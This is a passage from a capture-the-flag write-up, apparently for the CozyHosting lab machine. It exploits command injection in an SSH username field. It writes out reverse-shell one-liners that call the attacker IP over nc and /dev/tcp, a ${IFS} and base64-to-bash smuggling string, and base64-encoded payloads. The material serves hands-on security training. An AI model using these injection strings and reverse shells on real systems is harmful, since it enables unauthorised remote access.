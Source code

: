 We see that this respond the output of an ssh command. We can assume that this injects our input into a shell. Meaning that we can try and inject our own bit of code. Meaning we'll try and put in our reverse shell. We can assume that the command is :

```bash
ssh [someoptions] $Username@$Hostname
```

Knowing that the `$Hostname` variable needs to follow the IP format so we won't be able to do much with it. *But* we can tamper with the `$Username` variable. We want to do a reverse shell. I have tried a reverse shell with `nc -c sh 10.10.14.87 12345` (or with `-e`), but the distant machine doesn't support these options, meaning I won't be able to use those. Also the `sh -i >& /dev/tcp/10.10.14.87/12345 0>&1` command shows a `bad file descriptor` error. So we have to use another, more exotic way found [here](https://spencerdodd.github.io/2017/02/21/reverse_shell_without_nce/).

Long story short we do :

```bash
mknod /tmp/f p
```
Here we make a pipe file called `f` and the flag `p` instruct that this pipe would be a FIFO (a queue), then we do :

```bash
/bin/sh 0</tmp/f | nc 10.10.14.87 12345 1>/tmp/f
```

The first part, `/bin/sh 0</tmp/f`, makes it so a shell is created and takes our queue pipe as an input. Then whatever the shell outputs (as a results of any command) is passed to the next part of the command as input. The next part is waiting for the attacker's connection and writes anything coming from that connection to our pipe file. In a nutshell, we spawn a shell that takes our pipe file as input and then what the shell outputs is sent to our connection and when the attacker send something, it is written in our pipe thanks to `1>/tmp/f`

The problem with any of this is that we cannot directly inject these into our username because it includes spaces and the `$Username` variable shouldn't contain spaces. In order to do this, we can replace spaces with the `${IFS}` variable.

But in order to minimize the number of `${IFS}` variables, we might as well directly turn the payload in base64 and send it. If send  `;echo${IFS}"[PAYLOAD"]|base64${IFS}-d|bash;`, then it should expand to :

```bash
ssh [someoptions] ;echo${IFS}"[PAYLOAD"]|base64 -d|bash;@$Hostname
```

This will first `ssh [someoptions]`, which will give an error then `echo${IFS}"[PAYLOAD"]|base64 -d|bash` which will decode the `[PAYLOAD]` from base64 then execute it. Then try the command `@$Hostname` which doesn't exist.

So if instead of `[PAYLOAD]` we have `bWtub2QgL3RtcC9mIHAK` (`mknod /tmp/f p` in base64) and then `L2Jpbi9zaCAwPC90bXAvZiB8IG5jIDEwLjEwLjE0Ljg3IDEyMzQ1IDE+L3RtcC9mCg==` (`/bin/sh 0</tmp/f | nc 10.10.14.87 12345 1>/tmp/f` in base64). We should have something that try to connect to us.

We now only need to wait for the reverse with `nc -lvnp 12345` on our terminal aaaand, we have a shell :

<img src="/assets/img/CozyHostingWriteup/cozy-6.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>
